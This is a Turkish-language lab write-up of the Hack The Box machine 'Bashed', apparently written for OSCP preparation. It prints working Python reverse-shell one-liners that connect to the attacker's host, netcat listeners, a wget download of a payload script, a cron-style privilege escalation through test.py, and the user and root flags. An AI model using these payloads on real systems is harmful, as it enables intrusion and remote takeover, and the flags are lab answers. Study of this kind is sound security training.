








# OSCP_Preparation

Makine: Bashed

 Nmap'i -A parametresi ile birlikte çalıştırıyorum. 

 -A parametresi NMAP’te en sık kullanılan parametrelerin bazılarını otamatik olarak kullanılmış olur.
Bunlar ise İşletim Sistemi Tespiti, Versiyon Tespiti, Script taraması ve Traceroute’tur. 

```console
──(naoumine㉿darker)-[~]
└─$ gobuster dir -u http://10.129.90.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                               
```




İlgili URL'e gidelim ve biraz kurcalayalım.



Sayfa içindeki link: https://github.com/Arrexel/phpbash

http://10.129.90.18/dev/phpbash.php dizinine gittiğimizde komut çalıştırabildiğimizi görüyoruz.



Burada kullanıcının yetkilerine bakıyoruz ve makina içerisinde python olduğunu doğruluyoruz. Şimdi reverse shell çalıştırmayı deneyelim.

Etkileşimsiz kabuktan etkileşimli kabuğa geçebilmek için çeşitli yöntemler bulunmaktadır. Bu yöntemlerden birisi de Python paketi kurulu olan hedef sistemde pty (Pseudo-terminal Utilities) modülünün spawn metodunu kullanmaktadır. Böylece aynı yetkiler ile etkileşimli komut satırı elde edilebilir.



ilk başta www.data kullanıcısı ile dosya yetkilerine bakmaya çalıştık ancak görüntüleyemedik bu yüzden scriptmanager kullanıcısı ile görüntülüyoruz.

scriptmanager'a ait bir python scripts'inin bulunduğu görüldü!



scriptmanager kullanıcısının text.py üzerinde yetkisi var ama garip olan text.txt neden bir root yetkisinde? Tahminimce test.py kodu kendi isteğimize göre düzenleyip işletirsek bu sonuç test.txt içine basılacak. Sonuç olarak root yetkisinde olan bir dosyaya ulaşmamızın bir anahtarı olabilir.



http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet linkindeki dosyayı indirip düzenledik.

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Localimizde dinlemeye aldık ve hedef makine de hazırladığımız shell'i çalıştırdık.

```console
nc -nvlp 1234
```


User Flag: 2c281f318555dbc1b856957c7147bfc1

Scriptmanager kullanıcısı olarak devam ediyorum.

```console
sudo -i -u scriptmanager
```

Aşağıdaki şekilde betiği düzenledim.
```console
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

test1.py olarak kendi localimde kaydedip sunucu olarak 8000 portundan ayağa  kaldırıyorum. 

```console
python -m SimpleHTTPServer    
```

Hedef makinaya dosyayı indirdim.

```console
wget http://10.10.14.18:8000/test1.py
```

Reverse shell alabilecek miyiz dinlemeye başlayalım.

```console
nc -nvlp 8888
```

Çalıştıralım!

```console
python -c test1.py
```





Root Flag: cc4f0afe3a1026d402ba10329674a8e2

Ek Yöntem:

echo "import socket, subprocess, os; f=open("test.txt","w"); f.write("privesc"); f.close; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.18",9999)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);" > test.py